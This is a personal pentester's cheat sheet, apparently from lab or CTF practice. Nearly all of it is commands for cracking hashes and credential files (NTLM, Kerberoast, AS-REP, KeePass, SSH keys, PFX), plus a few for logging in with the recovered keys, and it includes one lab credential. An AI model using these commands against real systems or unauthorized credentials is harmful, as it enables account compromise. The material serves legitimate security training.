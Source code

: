 Look up hash type here https://hashcat.net/wiki/doku.php?id=example_hashes  
  
Can use john to figure out hash type automatically:  
```  
john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 hash.txt  
```  
  
NTLM w hashcat  
```  
hashcat -m 1000 hash_admin.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force  
```  
  
NTLMv2 w hashcat  
```  
hashcat -m 5600 -a 0 -o cracked.txt --force hash_147.txt /usr/share/wordlists/rockyou.txt  
```  
  
Database.kdbx w hashcat  
`Keepass2john Database.kdbx > keepass.hash`  
- remove "Database:" from beginning of hash, or whatever the filename: of the kdbx is  
```  
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force  
```  
or  
```  
john keepass.hash -w:/usr/share/wordlists/rockyou.txt  
```  
can also open kdbx with kpcli if you have password  
```  
kpcli --kdb passwords.kdbx  
```  
- or can just run `kpcli` and once in kpcli run `open passwords.kdbx` and it will ask for the password  
- from there `ls` and `cd` through the groups until you see an entry. to see info:  
	- `show -f 0` for entry 0  
	- `show -f 1` for entry 1  
  
  
Keepass .dmp file  
```  
python keepass_dump.py -f KeePassDumpFull.dmp  
```  
- from https://github.com/z-jxy/keepass_dump  
- will extract as many letters from the keepass master password as it can find  
- try googling the rest to fill in the blanks  
  
  
Converting putty key to openssh  
- copy everything starting with "PuTTY-User-Key-File-3: ssh-rsa" and the whole key into a file named `root-putty.key`  
	- remove all spaces before each line in vim `%s/^\s\+//`  
```  
puttygen root-putty.key -O private-openssh -o keeper-root  
```  
- then ssh with key:  
```  
ssh -i keeper-root root@10.129.215.139  
```  
  
  
asrep roast w hashcat  
`proxychains -q impacket-GetNPUsers -dc-ip 172.16.145.6 -request -outputfile hashes.asreproast relia.com/jim:"Castello1\!"`  
```  
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force  
```  
  
zip with john  
`zip2john sitebackup3.zip > zip3.hash`  
```  
john --wordlist=/usr/share/wordlists/rockyou.txt zip3.hash  
```  
`john zip3.hash --show`  
  
ssh with john  
`ssh2john id_ecdsa > anita.hash`  
```  
john --wordlist=/usr/share/wordlists/rockyou.txt anita.hash  
```  
`ssh -i ./id_ecdsa anita@192.168.164.245 -p 2222`  
  
pfx2john  
```  
pfx2john legacyy_dev_auth.pfx > pfx.hash  
```  
crack it  
```  
john --wordlist=/usr/share/wordlists/rockyou.txt pfx.hash  
```  
  
pem2john  
```  
pem2john ./privkey.pem > hash.txt  
```  
crack it  
```  
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  
```  
  
use password to extract keys and certificate  
```  
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key  
```  
- it will ask for password and PEM pass phrase (make up pass phrase here: 4+ characters)  
decrypt password:  
```  
openssl rsa -in legacyy_dev_auth.key -out legacyy_dev_auth_decoded.key  
```  
dump the certificate:  
```  
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt  
```  
connect with key and cert:  
```  
evil-winrm -i 10.129.98.245 -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt  
```  
  
  
Password generating  
```  
crunch 6 6 -t Lab%%% > wordlist  
```  
- minimum and maximum length to 6 characters  
- specify the pattern using the -t parameter  
- then hard-code the first three characters to 'Lab' followed by three numeric digits  
  
Kerberoasting  
- ex: $krb5tgs hash from GetUsersSPNs.py  
```  
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt  
```  
- use https://hashcat.net/wiki/doku.php?id=example_hashes to search hash types  
- in vim  
	- `:%s/\s\+//g`  
		- removes all spaces  
	- `:%s/\n//g`  
		- joins all lines to a single line  
  
create a sub-wordlist from rockyou containing all words with ninja:  
```  
grep -i ninja /usr/share/wordlists/rockyou.txt > rockyou_ninja  
```  
- useful if there's a hint at what the password is, speed up cracking  